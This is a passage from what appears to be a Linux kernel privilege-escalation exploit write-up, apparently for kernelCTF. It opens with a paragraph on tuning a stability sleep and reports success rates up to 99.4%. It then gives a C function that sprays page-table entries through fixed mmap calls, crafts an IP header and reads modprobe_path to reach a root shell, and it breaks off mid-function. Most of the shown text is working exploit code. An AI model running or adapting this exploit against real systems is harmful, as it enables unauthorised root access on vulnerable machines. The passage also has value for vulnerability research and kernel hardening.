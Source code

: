Note the `CONFIG_SEC_BEFORE_STORM` which waits for all allocations in the background to finish, in case some allocations are happening across CPUs. This considerably slows down the exploit (1 second -> 11 seconds), but it definitively increases exploit stability on systems where there may be a lot of background noise. Ironically enough, the success rate increased 93% -> 99,4% (n=1000) **without** the sleep, on systems with barely any workload (like the kernelctf image), so play around with this value as you like.

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
	unsigned long long *pte_area;
	void *_pmd_area;
	void *pmd_kernel_area;
	void *pmd_data_area;
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 70,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	char modprobe_path[KMOD_PATH_LEN] = { '\x00' };

	get_modprobe_path(modprobe_path, KMOD_PATH_LEN);

	printf("[+] running normal privesc\n");

    PRINTF_VERBOSE("[*] doing first useless allocs to setup caching and stuff...\n");

	pin_cpu(0);

	// allocate PUD (and a PMD+PTE) for PMD
	mmap((void*)PTI_TO_VIRT(1, 0, 0, 0, 0), 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	*(unsigned long long*)PTI_TO_VIRT(1, 0, 0, 0, 0) = 0xDEADBEEF;

	// pre-register sprayed PTEs, with 0x1000 * 2, so 2 PTEs fit inside when overlapping with PMD
	// needs to be minimal since VMA registration costs memory
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT; i++)
	{
		void *retv = mmap((void*)PTI_TO_VIRT(2, 0, i, 0, 0), 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);

		if (retv == MAP_FAILED)
		{
			perror("mmap");
			exit(EXIT_FAILURE);
		}
	}

	// pre-allocate PMDs for sprayed PTEs
	// PTE_SPRAY_AMOUNT / 512 = PMD_SPRAY_AMOUNT: PMD contains 512 PTE children
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT / 512; i++)
		*(char*)PTI_TO_VIRT(2, i, 0, 0, 0) = 0x41;

	// these use different PTEs but the same PMD
	_pmd_area = mmap((void*)PTI_TO_VIRT(1, 1, 0, 0, 0), 0x400000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	pmd_kernel_area = _pmd_area;
```